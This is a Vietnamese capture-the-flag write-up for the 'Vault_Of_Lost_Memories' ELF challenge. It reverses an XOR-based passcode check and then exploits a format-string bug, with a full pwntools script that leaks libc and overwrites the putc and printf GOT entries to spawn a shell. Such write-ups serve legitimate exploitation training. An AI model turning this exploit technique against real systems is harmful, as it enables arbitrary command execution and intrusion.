





# Vault_Of_Lost_Memories



Đề bài cho ta 1 file `elf64` với `PIE off` . 


Phân tích file bằng ida thì mình thấy có 2 hàm cần chú ý:



Đầu tiên thì chương trình sẽ yêu cầu chúng ta nhập vào passcode , sau đó thực hiện các phép tính với từng ký tự một. Ở cuối hàm ta thấy có kiểm tra với string `cLVQjFMjcFDGQ`, có cipher rồi nên ta hoàn toàn có thể viết script để tìm ra passcode đúng:

```python
cipher = "cLVQjFMjcFDGQ"
afterxor =""
for ch in cipher:
    afterxor += chr(ord(ch)^0x35)

result = ""
for c in afterxor:
    if (c <= 'z' and c >='a'):
        tmp = ord(c) - ord('a')
        if tmp <= 9:
            result += chr(tmp + 26 -10 + ord('a'))
        else:
            result += chr(tmp -10 + ord('a'))
              
    elif (c <= 'Z' and c >= 'A'):
        tmp = ord(c) - ord('A')
        if tmp <= 9:
            result += chr(tmp + 26 -10 + ord('A'))
        else:
            result += chr(tmp -10 + ord('A'))
    else:
        result += c


print(result)

```

**Passcode:** `Lost_in_Light`



Khi chương trình kiểm tra passcode thành công thì sẽ thực hiện hàm này, và ở đây chương trình xuất hiện lỗi format string.

Do `PIE` tắt đồng thời có `Partial GOT` tức là ta hoàn toàn có thể thay đổi địa chỉ `GOT`.



Mình thấy tham số truyền vào hàm `system` và `printf` đều là `rdi` vậy nên ý tưởng của mình là thay đổi `GOT` của `putc` thành hàm `sub_401448` để chương trình thành một vòng lặp để ta nhập được nhiều lần.

Sau đó ta sẽ thay đổi `GOT` của `printf` thành `system` để chương trình sẽ chạy command mà ta nhập vào.

## Solve script

```python
#!/usr/bin/python3

from pwn import *
exe = ELF('./chal')
p = process([exe.path])
# p = gdb.debug([exe.path],'''
#             b * 0x00000000004014dc
#             b* 0x000000000040152d
#             c
              
              
#               ''')

p.sendlineafter(">>> ",b'Lost_in_Light')

payload = f'%{0x1448}c%10$hn%29$p'.encode()
payload = payload.ljust(0x20)
payload += p64(exe.got['putc'])

p.sendlineafter(">>> ",payload)

p.recvuntil(b"0x")
leak_libc = int(p.recv(12),16)
libc_base = leak_libc - 0x29d90
system_addr = libc_base + 0x50d70
log.info("leak_libc: "+hex(leak_libc))
log.info("libc: "+hex(libc_base))

part1 =( system_addr >> 16) & 0xff
part2 = system_addr & 0xffff

payload = f'%{part1}c%10$hhn%{part2 - part1}c%11$hn'.encode()
payload = payload.ljust(0x20)
payload += p64(exe.got['printf']+2)
payload += p64(exe.got['printf'])

p.sendlineafter(">>> ",payload)


p.interactive()
```



Yayy và ta đã tạo được shell
